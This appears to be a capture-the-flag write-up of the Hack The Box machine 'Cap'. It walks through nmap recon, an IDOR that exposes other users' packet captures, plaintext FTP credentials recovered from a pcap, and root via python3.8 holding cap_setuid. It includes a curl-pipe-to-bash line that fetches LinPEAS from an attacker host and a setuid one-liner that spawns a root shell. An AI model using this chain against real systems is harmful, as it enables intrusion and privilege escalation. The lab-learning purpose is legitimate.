





## Recon

Started with a standard Nmap scan:

```bash
nmap -sC -sV -vv -oA nmap/cap_initial_scan 10.129.10.68
```

| Port | Service | Version |
|---|---|---|
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80 | HTTP | Gunicorn — "Security Dashboard" |

Gunicorn on port 80 is a strong signal this is a Python (likely Flask) app rather than a static site, and the title "Security Dashboard" immediately stood out as worth digging into first.

## FTP

Before touching the web app, it's always worth checking whether FTP allows anonymous access:

```
ftp 10.129.10.68
Connected to 10.129.10.68.
220 (vsFTPd 3.0.3)
Name (10.129.10.68:kali): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed.
ftp>
```

The login fails, so anonymous access is disabled here. Nothing more to do on FTP for now time to move on to the web server.

## Web Enumeration

Running Wappalyzer against the site confirmed the stack: **Python/Gunicorn** backend, **Bootstrap 4**, **Chart.js/Highcharts** for the dashboard graphs, and jQuery.



Logged in as a user called `Nathan`, the sidebar had four sections:

- Dashboard
- **Security Snapshot (5 Second PCAP + Analysis)**
- IP Config
- Network Status



Browsing **IP Config** (`/ip`) and **Network Status** (`/netstat`) returned output that looked exactly like the raw output of `ifconfig` and `netstat` run directly on the host. That's a big tell the app is shelling out to system binaries rather than querying any kind of API, which meant it was probably trusting local system state more than it should.



The **Security Snapshot** page was noticeably slower to load than the rest consistent with the server spinning up a live packet capture for a few seconds before rendering the results, rather than reading a static file.

## IDOR

One interesting thing to notice is the URL scheme when creating a new capture, that is of the form `/data/<id>`. The id is incremented for every capture. It's possible that there were packet captures from users before us. This vulnerability is known as Insecure Direct Object Reference (IDOR), wherein a user can directly access data owned by another user. Let's examine this capture for potential sensitive data.

Each snapshot is referenced by that same numeric ID in the URL: `/data/<id>`.

| Endpoint | Packets | Notes |
|---|---|---|
| `/data/0` | 72 (69 TCP) | Full capture — see below |
| `/data/1` | 0 | Empty |
| `/data/2` | 3 (3 TCP) | Just HTTP TCP teardown, nothing sensitive |
| `/data/3`, `/data/4`... | — | Bounces back to the dashboard, IDs don't exist |

Nothing on the page checked whether the logged-in user actually owned the snapshot ID being requested. That's a textbook **Insecure Direct Object Reference (IDOR)** swapping the ID in the URL pulled back someone else's data instead of mine. Each snapshot page has a **Download** button that hands you the raw `.pcap` file.



## Foothold: Credentials from a Packet Capture

Downloading `/data/0` and opening it in Wireshark, then filtering on `ftp`, revealed a full plaintext FTP authentication exchange:



```
USER nathan
331 Please specify the password.
PASS Buck3tH4TF0RM3!
230 Login successful.
```

FTP doesn't encrypt anything, so once that traffic is reachable. In this case, just by guessing a lower snapshot ID the credentials are sitting right there for anyone to read. There was also a failed `RETR notes.txt` (`550 Failed to open file`) in the same capture a dead end, but a fun detail; someone had tried to grab a notes file off the FTP server that didn't exist at capture time.

Those credentials worked both over FTP (where I grabbed the user flag) and over SSH:

```
ftp 10.129.10.68
Connected to 10.129.10.68.
220 (vsFTPd 3.0.3)
Name (10.129.10.68:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Jul 17 01:39 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
ftp> exit
221 Goodbye.
```

```bash
cat user.txt
f8f16cc530d7a3c8****************
```

And over SSH:

```bash
ssh nathan@10.129.10.68
# password: Buck3tH4TF0RM3!

nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
f8f16cc530d7a3c8****************
```

Same flag either way — FTP just delivers the file directly, while SSH gives a full interactive shell to keep working from, which is what actually matters for the next stage.

## Privilege Escalation

First checks came back empty:

```bash
sudo -l
# Sorry, user nathan may not run sudo on cap.

find / -perm -u=s -type f 2>/dev/null
# Just the standard SUID binaries (mount, su, passwd, pkexec...) — nothing custom.
```

With SUID ruled out, the next step was checking **Linux capabilities** instead. a mechanism that lets a binary hold a specific subset of root's powers (like binding to privileged ports, or changing UID) without making the whole binary run as root. It's an easy thing to miss because most people only think to check SUID bits.

The direct way to check is:

```bash
getcap -r / 2>/dev/null
```

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$
```

Most of this is normal — `ping`, `traceroute6`, and `mtr-packet` all need `cap_net_raw` for raw socket access, and `gst-ptp-helper` needing `cap_net_bind_service`/`cap_net_admin` is standard on most Linux installs. The one that stands out is `/usr/bin/python3.8`:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

`cap_net_bind_service` is probably why this was added in the first place. it would let the Flask/Gunicorn app bind to port 80 without running as root. But `cap_setuid` is bundled in alongside it, and that's the dangerous part: it lets any process spawned from that Python binary call `setuid()` freely, including switching straight to UID 0. The `+eip` flags (effective, inheritable, permitted) mean this applies immediately to any child process, not just the interpreter itself.

I also ran [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) to double check nothing else was missed, serving it from my attacker box and piping it straight into bash on the target:

```bash
# on attacker box, in the directory holding linpeas.sh
sudo python3 -m http.server 80

# on the target, as nathan
curl http://<attacker_ip>/linpeas.sh | bash
```

It flagged the same thing under its "Files with capabilities" section, confirming `python3.8` was the vector useful as a broader sanity check, but `getcap -r /` alone was really all that was needed here.

### The Vulnerability: Linux Capabilities

Normally, a process either runs as an unprivileged user or as full root there's not much in between. Capabilities exist to break that all-or-nothing model apart, letting a binary hold just the one or two root-level powers it actually needs instead of the whole set.

- **[`cap_setuid`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** : per the Linux capabilities documentation, this lets a process change the UID it's running under, including switching to `0` (root), without needing to already be root or rely on a SUID bit.
- **The problem** :  that capability was granted to `python3.8`, a general-purpose interpreter that can execute arbitrary code. So anyone able to launch `python3.8` on this box can simply tell it to become root, no exploit chain, no memory corruption, just a permission that never should have been granted to something this powerful.

### Getting Root

From my SSH session, I ran:

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Here's what actually happens in that one-liner: [`os.setuid(0)`](https://docs.python.org/3/library/os.html#os.setuid) changes the UID of the running Python process to `0`. That call would normally be rejected for a non-root user, but it succeeds here because `python3.8` carries the `cap_setuid` capability. The instant it succeeds, the interpreter itself is running as root. `os.system("/bin/bash")` then spawns a new shell as a child process, which inherits that same UID — landing directly in a root shell.

```
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

Root shell confirmed, flag grabbed.
